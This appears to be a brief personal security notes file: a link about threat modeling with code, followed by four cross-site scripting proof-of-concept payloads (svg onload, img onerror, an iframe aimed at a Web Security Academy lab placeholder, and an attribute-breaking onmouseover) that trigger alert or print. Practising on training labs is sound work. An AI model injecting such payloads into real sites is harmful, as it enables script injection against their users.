 # Notes
Threatspec  -- https://onehack.us/t/threatspec-continuous-threat-modeling-through-code/174377


"><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  "onmouseover="alert(1)
